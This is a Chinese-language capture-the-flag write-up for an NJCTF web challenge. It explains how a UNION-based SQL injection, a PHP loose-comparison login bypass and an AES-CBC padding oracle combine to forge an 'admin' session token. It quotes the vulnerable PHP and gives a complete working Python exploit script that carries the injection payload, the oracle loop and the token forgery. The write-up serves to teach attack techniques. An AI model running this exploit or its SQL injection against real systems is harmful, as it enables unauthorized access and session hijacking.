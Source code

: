 ## 这是NJCTF的题目

### 题目思路分析

此题目是关于 padding oracle attack的:
Padding oracle attack 攻击的原理请看[这篇文章](http://www.freebuf.com/articles/database/151167.html)：

先看代码：

```php
$query = "SELECT username, encrypted_pass from users WHERE username='$username'";
    $res = $conn->query($query) or trigger_error($conn->error . "[$query]");
    if ($row = $res->fetch_assoc()) {
        $uname = $row['username'];
        $encrypted_pass = $row["encrypted_pass"];
    }
```
此处存在一个sql注入，用union类型的sql注入，所以 $uname 和 $encrypted_pass 可控
再看 login函数：

```php
function login($encrypted_pass, $pass)
{
    $encrypted_pass = base64_decode($encrypted_pass);
    $iv = substr($encrypted_pass, 0, 16);
    $cipher = substr($encrypted_pass, 16);
    $password = openssl_decrypt($cipher, METHOD, SECRET_KEY, OPENSSL_RAW_DATA, $iv);
    return $password == $pass;
}
```
此处存在一个 php 弱类型, 因为 $encrypted_pass 和 $pass 都可控,我们只需要让 $encrypted_pass解密失败，然后提交一个空密码就可以绕过。

要想获取flag，需要让 `$_SESSION['isadmin'] == true;`成立，
主要通过构造密文，利用下面的函数，让 `$u === 'admin'` 成立。
```php
function test_identity()
{
    if (!isset($_COOKIE["token"]))
        return array();
    if (isset($_SESSION['id'])) {
        $c = base64_decode($_SESSION['id']);
        if ($u = openssl_decrypt($c, METHOD, SECRET_KEY, OPENSSL_RAW_DATA, base64_decode($_COOKIE["token"]))) {
            if ($u === 'admin') {
                $_SESSION['isadmin'] = true;
            } else $_SESSION['isadmin'] = false;
        } else {
            die("ERROR!");
        }
    }
}
```

思路是，先通过 padding oracle 攻击，计算出 `$defaultId`,然后就在知道一组加密结果,即：

```
$ID = openssl_encrypt($defaultId, METHOD, SECRET_KEY, OPENSSL_RAW_DATA, $token)
```
所以：

```
$defaultId = openssl_decrypt($ID, METHOD, SECRET_KEY, OPENSSL_RAW_DATA, $token)
```
设 $ID 进行 aes解密之后的中间值为 $midText
则 `$defaultId = $midText^$token`

所以伪造一个`token = $token ^ $defaultId ^ 'admin\x0b\x0b\x0b\x0b\x0b\x0b\x0b\x0b\x0b\x0b\x0b'`
解密之后，就可以使得 $u = 'admin'



### 攻击代码如下：

```python
import requests
import base64
import time
# url='http://218.2.197.235:23737/'
url='http://127.0.0.1:9090/src/'
N=16
phpsession=""
ID=""
def inject1(password):
    param={'username':"' union select 'bendawangbendawangbendawang','{password}".format(password=password),'password':''}
    result=requests.post(url,data=param)
    #print result.content
    return result

def inject_token(token):
    header={"Cookie":"PHPSESSID="+phpsession+";token="+token+";ID="+ID}
    result=requests.post(url,headers=header)
    return result

def xor(a, b):
    return "".join([chr(ord(a[i])^ord(b[i%len(b)])) for i in xrange(len(a))])

def pad(string,N):
    l=len(string)
    if l!=N:
        return string+chr(N-l)*(N-l)

def padding_oracle(N,cipher):
    get=""
    for i in xrange(1,N+1):
        for j in xrange(0,256):
            padding=xor(get,chr(i)*(i-1))
            c=chr(0)*(16-i)+chr(j)+padding+cipher
            print c.encode('hex')
            result=inject1(base64.b64encode(chr(0)*16+c))
            if "ctfer" not in result.content:
                get=chr(j^i)+get
                # time.sleep(0.1)
                break
    return get

session=inject1("bendawang").headers['set-cookie'].split(',')
phpsession=session[0].split(";")[0][10:]
print phpsession
ID=session[1][4:].replace("%3D",'=').replace("%2F",'/').replace("%2B",'+').decode('base64')
token=session[2][6:].replace("%3D",'=').replace("%2F",'/').replace("%2B",'+').decode('base64')

middle=""
middle=padding_oracle(N,ID)
print "ID:"+ID.encode('base64')
print "token:"+token.encode('base64')
print "middle:"+middle.encode('base64')
print "\n"
if(len(middle)==16):
    plaintext=xor(middle,token)
    print plaintext
    print plaintext.encode('base64')
    des=pad('admin',N)
    tmp=""
    print des.encode("base64")
    for i in xrange(16):
        tmp+=chr(ord(token[i])^ord(plaintext[i])^ord(des[i])) 
    print tmp.encode('base64')

    result=inject_token(base64.b64encode(tmp))
    print result.content
    if "flag" in result.content :
        raw_input("success")
```

Reference:

[http://blog.csdn.net/qq_19876131/article/details/61918399](http://blog.csdn.net/qq_19876131/article/details/61918399)

